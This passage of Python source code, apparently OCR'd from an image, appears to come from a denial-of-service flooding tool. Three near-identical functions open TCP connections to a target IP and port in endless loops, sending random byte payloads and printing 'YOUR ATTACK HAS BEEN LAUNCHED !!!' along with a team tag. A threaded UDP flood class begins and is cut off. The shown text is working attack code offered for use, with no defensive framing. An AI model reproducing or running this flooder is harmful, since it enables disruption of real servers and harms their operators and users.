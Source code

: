 
def run3():
	data = random._urandom(999)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" YOUR ATTACK HAS BEEN LAUNCHED !!!")
		except:
			s.close()
			print("[*]TEAM NOZA COSTRA TNIK KOLL!!")
            
  
def run4():
	data = random._urandom(818)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" YOUR ATTACK HAS BEEN LAUNCHED !!!")
		except:
			s.close()
			print("[*]TEAM NOZA COSTRA TNIK KOLL!!!")
			
def run5():
	data = random._urandom(16)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" YOUR ATTACK HAS BEEN LAUNCHED !!!")
		except:
			s.close()
			print("[*]TEAM NOZA COSTRA TNIK KOLL!!!")
            
#Urandom Dan Pacotes
class MyThread(threading.Thread):
     def run(self):
         while True:
                sock = socket.socket(
                    socket.AF_INET, socket.SOCK_DGRAM)
                